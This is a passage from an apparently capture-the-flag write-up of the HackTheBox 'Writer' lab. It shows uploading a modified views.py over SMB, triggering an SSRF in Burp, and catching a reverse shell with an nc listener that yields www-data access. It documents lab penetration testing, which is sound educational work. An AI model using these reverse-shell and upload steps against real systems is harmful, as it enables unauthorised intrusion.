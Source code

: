 
#### Trigger

I’ll upload this modified `views.py` using `smbclient`:

    
    
    smb: \writer_web\> put views.py 
    putting file views.py as \writer_web\views.py (4.1 kb/s) (average 4.0 kb/s)
    

And then immediately after in Burp trigger the SSRF:

[![image-20211202140902669](https://0xdfimages.gitlab.io/img/image-20211202140902669.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211202140902669.png)

At `nc`, I get a shell as www-data:

    
    
    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 43108
    bash: cannot set terminal process group (949): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@writer:~/writer2_project$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

[](/2021/12/11/htb-writer.html)

